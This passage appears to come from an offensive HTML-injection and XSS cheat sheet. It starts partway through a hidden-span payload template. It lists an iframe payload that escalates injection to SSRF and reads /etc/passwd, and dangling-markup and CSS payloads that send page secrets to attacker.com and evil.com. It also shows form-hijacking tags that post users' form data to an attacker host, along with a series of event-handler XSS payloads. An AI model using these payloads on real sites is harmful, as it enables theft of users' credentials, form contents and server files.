 	      <span style="display: block; float: left; background: transparent; color: transparent; white-space: no-wrap; overflow: hidden; width: 0px; height: 0px;"> ; *Your Command/Payload Here* </span>  
	      <span style="display: block; float: left;">    
	</span>  
	      <span style="display: block; white-space: no-wrap;"> </span>  
	      <span style="display: block; clear: both;"></span>  
	    </body>  
	</html>
	```
- [Defacement](https://medium.com/@lamscun/how-do-i-change-htmli-from-low-to-critical-your-email-box-is-safe-e7171efd88fe)
- [HTML Injection to SSRF](https://faizannehal.medium.com/how-you-can-escalate-a-simple-html-injection-into-a-critical-ssrf-8cd754e1a114)
    `<iframe src=https://yourwebsite.com/redirect.php?link=file:///etc/passwd></iframe>`
- Stealing clear text secrets
	```html
	<img src='http://attacker.com/log.php?HTML= <meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text= <meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
	// Abuse CSS
	<style>@import//hackvertor.co.uk?
	<table background='//your-collaborator-id.burpcollaborator.net?'
	```
- stealing forms    
	- Set a form header: `<form action='http://evil.com/log_steal'>` this will overwrite the next form header and all the data from the form will be sent to the attacker
	```html
	<button name=xss type=submit formaction='https://google.com'>I get consumed!
	<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option
	```
	- using noscript
	```html
	<noscript><form action=http://evil.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents></noscript>
	```
	
### 3) Get your event handler injected
- [Agnostic Event Handlers](https://brutelogic.com.br/blog/agnostic-event-handlers/)
	```html
	<brute contenteditable onblur=alert(1)>lose focus!  
	<brute onclick=alert(1)>click this!  
	<brute oncopy=alert(1)>copy this!  
	<brute oncontextmenu=alert(1)>right click this!  
	<brute oncut=alert(1)>copy this!  
	<brute ondblclick=alert(1)>double click this!  
	<brute ondrag=alert(1)>drag this!  
	<brute contenteditable onfocus=alert(1)>focus this!  
	<brute contenteditable oninput=alert(1)>input here!  
	<brute contenteditable onkeydown=alert(1)>press any key!  
	<brute contenteditable onkeypress=alert(1)>press any key!  
	<brute contenteditable onkeyup=alert(1)>press any key!  
	<brute onmousedown=alert(1)>click this!  
	<brute onmousemove=alert(1)>hover this!  
	<brute onmouseout=alert(1)>hover this!  
	<brute onmouseover=alert(1)>hover this!  
	<brute onmouseup=alert(1)>click this!  
	<brute contenteditable onpaste=alert(1)>paste here!  
	<brute style=font-size:500px onmouseover=alert(1)>0000
	```
- [Port Swigger Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- Didn't Work ? -> [XSS Without Event Handlers](https://brutelogic.com.br/blog/xss-without-event-handlers/)
```html
# **href**  
<a href=javascript:alert(1)>click  
```